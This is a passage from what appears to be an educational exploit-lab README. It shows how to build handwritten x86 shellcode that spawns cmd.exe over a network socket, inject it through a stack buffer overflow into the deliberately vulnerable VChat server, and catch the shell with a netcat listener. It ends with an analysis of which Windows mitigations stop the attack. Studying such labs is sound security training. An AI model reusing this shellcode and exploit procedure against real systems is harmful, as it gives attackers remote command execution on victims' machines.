mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName

mov ebx,0x7594f960      ; Change! Call CreateProcessA()
call ebx                ; Call CreateProcessA()
```
1) We first allocate a `lpCommandLine` string on the stack.
   ```
   mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                           ; injecting null bytes.
   shr ebx,0x8             ; Make EBX = 'cmd\x00'
   push ebx                ; Push application name
   mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                           ; ('lpCommandLine' parameter)
   ```
2) Allocate `_STARTUPINFOA` structure on the stack.
   ```
   ; Now fill the `_STARTUPINFOA` structure
   xor edx,edx             ; Zero out EBX
   push esi                ; hStdError = our socket handler
   push esi                ; hStdOutput = our socket handler
   push esi                ; hStdInput = our socket handler
   push edx                ; cbReserved2 = NULL
   push edx                ; wShowWindow = NULL
   xor eax, eax            ; Zero out EAX
   mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
   push eax                ; Push dwFlags
   push edx                ; dwFillAttribute = NULL
   push edx                ; dwYCountChars = NULL
   push edx                ; dwXCountChars = NULL
   push edx                ; dwYSize = NULL
   push edx                ; dwXSize = NULL
   push edx                ; dwY = NULL
   push edx                ; dwX = NULL
   push edx                ; lpTitle = NULL
   push edx                ; lpDesktop = NULL
   push edx                ; lpReserved = NULL
   add dl,44               ; cb = 44
   push edx                ; Push _STARTUPINFOA on stack
   mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
   xor edx,edx             ; Zero out EDX again
   ```
3) Allocate space on the stack for the `PROCESS_INFORMATION` structure, this can be all null as we do not care what is written here. 
   ```
   ; Fill PROCESS_INFORMATION struct
   push edx                ; lpProcessInformation
   push edx                ; lpProcessInformation + 4
   push edx                ; lpProcessInformation + 8
   push edx                ; lpProcessInformation + 12
   ```
4) Prepare stack for the `CreateProcessA` Call.
   ```
   ; Now fill out the `CreateProcessA` parameters
   push esp                ; lpProcessInformation
   push eax                ; lpStartupInfo
   xor ebx,ebx             ; Zero out EBX to fill other parameters
   push ebx                ; lpCurrentDirectory
   push ebx                ; lpEnvironment
   push ebx                ; dwCreationFlags
   inc ebx                 ; bInheritHandles = True
   push ebx                ; Push bInheritHandles
   dec ebx                 ; Make EBX zero again
   push ebx                ; lpThreadAttributes
   push ebx                ; lpProcessAttributes
   push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
   push ebx                ; lpApplicationName
   ```
5) Make the function call.
   ```
   mov ebx,0x7594f960      ; Change! Call CreateProcessA()
   call ebx                ; Call CreateProcessA()
   ```
   * The address of the `connect(...)` function is found with [arwin](https://github.com/xinwenfu/arwin).
   * We will return to the stack, and we do not need to save the return value (It will return if it failed or not).

#### Arwin
This section will show you how we can get the address of a function using [arwin](https://github.com/xinwenfu/arwin). It is unlikely you will have access to the target computer to run the [arwin](https://github.com/xinwenfu/arwin) program in most scenarios, and in those cases you would need to add to the shell code a section that calls [`getProcAddress(...)`](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part2.html#:~:text=Get%20WSASocketA%20with-,GetProcAddress,-This%20step%20is). You could alternatively attempt to leak the PLT of the windows process.

1) Open your Windows Virtual Machine.

2) Open the command prompt.

3) Check if [arwin](https://github.com/xinwenfu/arwin) is installed.

	

	* If this is not installed you will need to download arwin, and add it to your path (Or simply run it from the downloaded folder).

4)  Find the `WSASockA(...)` Function: Run `arwin ws2_32 WSASocketA`, example output is shown below.
	* `arwin`: The arwin binary.
	* `ws2_32`: Look for Windows socket 2, 32-bit related functions.
	* `WSASocketA`: Look for the WSASocketA function.

	

5) Find the `connect(...)` Function: Run `arwin ws2_32 connect`, example output is shown below.
	* `arwin`: The arwin binary.
	* `ws2_32`: Look for Windows socket 2, 32-bit related functions.
	* `connect`: Look for the connect function.

	

6) Find the `CreateProcessA` Function: Run `arwin kernel32 CreateProcessA`, example output is shown below:
	* `arwin`: The arwin binary.
	* `kernel32`: Look for kernel module, specifically 32-bit related functions.
	* `CreateProcessA`: Look for the CreateProcessA function.

	

7) Replace the addresses we jump to in the shellcode!

### Exploitation
Now that we have generated the assembly for our shellcode, we will generate the binary instructions that will be injected onto the stack as *shellcode* in order to allow remote execution.

1) Edit the assembly located in the [shellcode.asm](./SourceCode/shellcode.asm) file.
	- Adjust the address of WSASocketA, connect, and CreatProcessA to the addresses in your victim Windows 10 machine.
	- Adjust the IP address to the attacker's local machine.

2) Compile the shellcode with nasm.
	1) Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		

	2) Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm `
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format.
		* `-o shellcode.o`: Shellcode File.
		* `shellcode.asm`: Input file.

		

3) Now we can extract the binary with a simple [shell script](./SourceCode/extract.sh).
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
		echo -n '\x'$i;
	done;
	echo
	```
	* `for i in`: For each value `$i` generated by the following command.
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
		* `grep "^ "`: Extract only those lines containing assembly.
		* `cut -f2`: Extract the second field; this contains the hex representation of the instructions.
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
	* `echo`: Print an extra line.
	* **Note**: If you create this file, be sure to make it executable with  the command `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

	

4) Now we can copy this shellcode into our exploit; see [exploit0.py](./SourceCode/exploit1.py) for guidance. We have already discovered how to jump back to the start of our buffer in the [original GTER exploit](https://github.com/DaintyJet/VChat_GTER_EggHunter). So, we need to perform a simple modification where we instead fill the start with our new shellcode.
5) Start netcat listening on port 4444, Run: `nc -lvp 4444`
	* `nc`: netcat command.
	* `l`: Listen.
	* `v`: Verbose output.
	* `p`: Port.

	

6) Ensure that VChat is launched and attached to *Immunity Debugger*.

	

7) Run the exploit against VChat and observe the output.

	

	* Notice that we did not get a shell; this means something likely went wrong...

8) We can set a breakpoint at our jump esp command.
	* We can see the shellcode is being executed normally

		

	* However we can see that the function calls, and stack operations end up overwriting our shellcode, since the stack continues to get items pushed and popped on and off it.

		

	* Running the exploit with the breakpoint set, we can see that the EAX register holds the address of the buffer, if we place the stack pointer `ESP` at this location it will no longer interfere with the shellcode.

		

**Illustration of the stack before shellcode runs**
```
|                      |<-- High Address 
|                      |
| \xe9\x70\xff\xff\xff |
|----------------------|<-- ESP
| Addr of jmp esp      | 
|----------------------|
| AA                   |
|----------------------|
| CUSTOM_SHELL         |
| (126B)               |
|----------------------|
| \x50\x5c             |
| \x90\x90\x90\x90\x90 |
| GTER /.:/            |
|----------------------|
|                      |<-- Low Address
```

9) Generate the assembly we can use to modify our shellcode; We will be using the tool `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
	* Run the command `./usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`.
	* Enter `push eax` and save the output.
	* Enter `pop esp` and save the output.
	* Exit with `Ctl+D`.

	

10) Modify the shellcode as shown in [exploit2.py](./SourceCode/exploit2.py). Notice that we added the hex for the push and pop instructions to move the stack pointer out of the way, and we decreased the number of `A's by two, as each of the two instruction we added is one byte.
	* *Note*: From the previous exploits it was possible to have the jump be a little imprecise. That is we could execute a few extra NOP instructions without affecting the shellcode's execution. In this case, you want to be sure that the jump performed lands on the `push eax` instruction, or if you include an NOP sled, it should fall within that region!

11) Run the program once more.
	* Now we can see the shell has been created!

	

## Attack Mitigation Table
In this section, we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server; specifically we will be discussing their effects on a buffer overflow that directly overwrites a return address and attempts to execute shellcode that has been written to the stack in order to launch a cmd shell and bind it's input and output to a network socket reusing already loaded libraries. It should be noted that these mitigations may be bypassed.

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigation we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and data structures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled, it will only have its addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.
### Individual Defenses: VChat Exploit
This exploit is a variation of the [VChat EggHunting](https://github.com/DaintyJet/VChat_GTER_EggHunter) exploit, where we use shellcode we generated manually to decrease the space requirements rather than egg hunting shellcode generated with *mona.py*. The mitigation has the same effect; however, ASLR now partially mitigates the exploit due to the randomization of the addresses, so we need to reuse the external functions.

|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|No Effect| | | |X |X | X| X| X|
|Partial Mitigation| | |X| | | | |
|Full Mitigation|X| | | | | | | |
---
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | |X| | | | |
|Full Mitigation| |X| | | | | | |
---
|Mitigation Level|Defenses|
|-|-|
|No Effect|SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG)|
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) ***or*** Data Execution Prevention (DEP)|
* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite the return address or arguments of a function. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack-based buffer overflows that attempt to **directly execute** shellcode located on the stack, as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This is partially effective as the addresses of the external functions we call are randomized. However, the randomization of the addresses is only guaranteed when the DLLs have been unloaded from memory, which, for these common libraries, is only guaranteed when the system reboots. Thus, the addresses of the external functions we leverage  and reuse will be the same until we reboot.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps.
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP) then this defense can by bypassed.
>
> `Defense: Address Space Layout Randomization (ASLR)`: This defense can be bypassed if the attacker can leak addresses, or they may brute force the offsets of functions they are calling in the shellcode. This mitigation does not prevent the exploit but simply makes it harder and less reliable.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|Defense: Buffer Security Check (GS)|X|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: ASLR increases the randomness of the generated security cookie. Additionally, this makes it harder for attackers to reuse external functions loaded by the program.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | | |
|Defense: Data Execution Prevention (DEP)|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X| **Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | |
|Defense: Address Space Layout Randomization (ASLR)|**Increased Security**: ASLR increases the randomness of the generated security cookie. Additionally, this makes it harder for attackers to reuse external functions loaded by the program..|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. |


> [!NOTE]
> We omit repetitive rows representing the non-effective mitigation strategies as their cases are already covered.
## Conclusion
For a discussion on why this overflow is possible, please refer to the [previous exploit on Egghunters](https://github.com/DaintyJet/VChat_GTER_EggHunter).

The main takeaway from this is even when the buffer is limited, if it is the only buffer, it may be possible to reuse existing code in the target process to create a remote execution environment. There are more complex means and methods of achieving this, but hopefully, this provides an intuitive example of reusing code that already exists!

## Test code
1. [shellcode.asm](./SourceCode/shellcode.asm): Assembly shell code
2. [exploit1.py](./SourceCode/exploit1.py): Slightly broken Exploit deployment
3. [exploit2.py](./SourceCode/exploit2.py): Working Exploit deployment

<!-- ## Refernces  
**Note**: https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part2.html
-->
